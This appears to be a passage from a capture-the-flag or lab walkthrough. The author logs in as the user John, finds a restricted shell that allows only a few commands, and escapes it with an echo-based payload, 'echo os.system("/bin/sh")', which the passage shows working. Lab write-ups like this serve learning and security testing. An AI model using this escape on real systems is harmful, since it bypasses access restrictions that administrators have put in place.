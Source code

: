 We're able to log in as John on the target. However, we're given a login banner telling us the admins are watching, and we're in a restricted shell. 

They were nice enough to let us know what commands are allowed.

```bash
john:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
```

Going down the list...

| Command | Description |
| ------- | ----------- |
| cd | Change Directory |
| clear | Clear screen |
| echo | Do I really need to? |
| exit | Quit our SSH session |
| help | Display list of commands |
| ll | Alias for 'ls -l' |
| lpath | Tells us our $PATH is limited | 
| ls | Directory listing |

...Not much to work with, at all.

In my testing of commands, I ran 'echo $PATH' thinking it would be fine, but I got a warning.

```bash
john:~$ lpath
Allowed:
 /home/john
john:~$ echo $PATH                                                                                                 
*** forbidden path -> "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.
```

## Jailbreak

Let's try for a restricted shell escape, using only 'echo'.

After some googling, I found an article on [UD64](https://ud64.com/ask/61/escaping-bypass-from-jail-restricted-linux-shells) with an echo-only shell escape.

```bash
john:~$ echo os.system("/bin/sh")
$ whoami
john
```
